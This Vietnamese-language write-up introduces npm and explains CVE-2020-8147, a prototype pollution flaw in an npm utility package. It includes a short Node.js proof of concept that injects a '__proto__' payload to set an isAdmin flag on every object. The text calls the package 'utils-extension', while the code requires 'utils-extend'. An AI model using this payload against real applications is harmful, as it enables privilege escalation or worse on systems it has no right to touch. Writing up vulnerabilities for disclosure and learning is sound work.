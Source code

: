 # Tìm hiểu về  CVE-2020-8147

## I. Tìm hiểu về NPM
### 1. NPM là gì ?
**NPM là gì?** – NMP là viết tắt của Node package manager là một công cụ tạo và quản lý các thư viện lập trình Javascript cho [Node.js](https://nodejs.org/). Trong cộng đồng Javascript, các lập trình viên chia sẻ hàng trăm nghìn các thư viện với các đoạn code đã thực hiện sẵn một chức năng nào đó. Nó giúp cho các dự án mới tránh phải viết lại các thành phần cơ bản, các thư viện lập trình hay thậm chí cả các [framework](https://topdev.vn/blog/framework-la-gi/).

![](https://i.imgur.com/THg7cCV.png)
### 2. Công dụng của NPM là gì

Với `npm` , công việc sẽ đơn giản đi rất nhiều, chúng giúp bạn thực hiện việc quản lý đơn giản hơn rất nhiều. Các thư viện đều có sẵn trên npm, bạn chạy một dòng lệnh để tải về và dễ dàng include chúng hơn.

Mỗi đoạn code này có thể phụ thuộc vào rất nhiều các mã nguồn mở khác, thật may mắn khi các công cụ quản lý thư viện ra đời, nếu không sẽ mất rất nhiều công sức trong việc quản lý các thư viện này.

Cộng đồng sử dụng `npm` rất lớn, hàng nghìn các thư viện được phát hành, hỗ trợ Javascript ES6, React, Express, Grunt, Duo… Hiện nay cũng đã xuất hiện thêm Yarn một công cụ tương tự `npm`, được Facebook phát triển với nhiều tính năng vượt trội có khả năng sẽ thay thế `npm`.

Nếu như bạn từng code Php thì sẽ biết [Composer](https://topdev.vn/blog/composer-la-gi/) là công cụ quản lý thư viện của nó, tương tự như NPM là công cụ quản lý thư viện Javascript.

![](https://i.imgur.com/GXaCiwp.png)

## II. CVE-2020-8147
Sự tiện dụng của các **module** đồng thời với sự lớn mạnh của **JS** khi có NodeJS kèm theo những nguy cơ đáng kể về an toàn vì tính chia sẻ cao, cộng đồng  đông đảo một khi có một lỗ hổng tồn tại thì nó sẽ ảnh hưởng diện rộng. CVE-2020-8147 là một Vul như vậy. 
### Mức độ Nguy hại : Cao

### Mô tả 
Lỗi trong xác thực đầu vào trong gói **npm** **[utils-extension](h)** phiên bản **1.0.8** trở về trước có thể cho phép tấn công ô nhiễm nguyên mẫu có thể dẫn đến thực thi mã từ xa hoặc tấn công từ chối dịch vụ DoS của các ứng dụng sử dụng utils-extension.

Nó cho phép kẻ tấn công sửa đổi **prototype** của một đối tượng . Về mức độ nghiêm trọng tùy thuộc vào việc triển khai (DoS, access to sensitive data, RCE).

### Demo
- Để thực hiện demo hãy đảm bảo máy tính đã cài sẵn NodeJs.
- Clone repo này để demo với module utils-extension 1.0.8
![](https://i.imgur.com/VKJFXyu.png)
- Thực thi file Demo.js. 

> `$ node Demo.js`

    const {extend} = require('utils-extend');
    const payload = '{"__proto__":{"isAdmin":true}}'
    const emptyObject = {}
    const pollutionObject = JSON.parse(payload);
    extend({}, pollutionObject)
    console.log(emptyObject.isAdmin)  // true 


### Tham khảo

[https://hackerone.com/reports/801522](https://hackerone.com/reports/801522)
 [Information](https://www.tenable.com/cve/CVE-2020-8147#)
[CPEs (1)](https://www.tenable.com/cve/CVE-2020-8147#)
[Plugins (0)](https://www.tenable.com/cve/CVE-2020-8147#)

